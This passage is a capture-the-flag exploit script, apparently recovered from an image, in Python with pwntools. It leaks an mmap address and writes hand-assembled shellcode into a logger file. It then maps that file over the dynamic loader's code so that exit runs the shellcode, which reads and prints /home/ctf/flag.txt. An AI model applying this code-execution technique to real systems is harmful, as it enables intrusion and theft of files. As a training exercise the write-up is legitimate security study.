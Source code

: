 ```

# Write some nops where ld's code is called, and then write the shellcode
shellcode = asm(shellcraft.nop() * (100 + 0xd50)) + b"\x49\x89\xF8\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x00\x00\x50\x00\x31\xF6\x0F\x05\x48\x89\xC3\x48\x89\xDF\x48\xC7\xC6\x00\x00\x50\x00\x48\xC7\xC2\x00\x02\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC6\x00\x00\x50\x00\x48\xC7\xC2\x00\x02\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x0F\x05"

mmap_len = 0x2000
path_buf_addr = 0x500000 # Will use this to write the flag's path
path = b'/home/ctf/flag.txt\x00'
fd = 3 # Logger's file descriptor
r = start()

# First, allocate a buffer and write the flag's path. This will be used by the shellcode to open the file
mmap(hex(path_buf_addr), hex(0x100), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_PRIVATE | MAP_ANONYMOUS), -1, 0)
read(len(path), path)

# Allocate a small memory chunk (0x2000 bytes). Mmap will allocate the address right before ld
mmap(hex(0x0), hex(mmap_len), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_SHARED), fd, 0)
# Read the logger's contents to leak the mmaped address
data = write(1000)
r.recvuntil('MMAPed: ')
r.recvuntil('MMAPed: ')
line = r.recvline().strip()
mmap_offset = int(line, 16)
log_addr("Mmap end", mmap_offset)
code_start = mmap_offset + mmap_len + 0x1000 + 0x10000 # calculate where ld's code segment is
log_addr("Code start", code_start)
# Write the shellocde over the logger's contents
read(len(shellcode), shellcode)

# Allocate a memory chunk using the MAP_FIXED flag over ld's code segment. Since we used 
# the logger's fd, its contents (which are now the shellcode) will be copied into the new allocated chunk
mmap(hex(code_start), hex(0x1000), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_SHARED | MAP_FIXED), fd, 0)
r.sendlineafter('choice = ', '4') # call exit to trigger the shellcode
r.interactive()
```

